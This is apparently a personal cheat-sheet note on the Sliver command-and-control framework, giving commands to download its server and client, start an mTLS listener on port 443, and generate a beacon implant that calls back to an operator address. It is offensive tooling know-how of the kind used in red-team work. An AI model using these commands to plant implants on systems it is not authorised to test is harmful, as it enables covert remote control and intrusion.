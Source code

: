 ```yaml
---
title: sliver
tags:
- c2
---
```

## sliver

### Download the latest version

#### server
```sh
curl -L https://github.com/BishopFox/sliver/releases/latest/download/sliver-server_linux -s --output sliver
```
####  client
```sh
curl -L https://github.com/BishopFox/sliver/releases/latest/download/sliver-client_linux -s --output sliver
```
### MTLS

#### Listener
```sh
mtls -l 443 -L 0.0.0.0 -p
```

#### Payload
```sh
generate beacon --mtls <ip address>:<port>
```
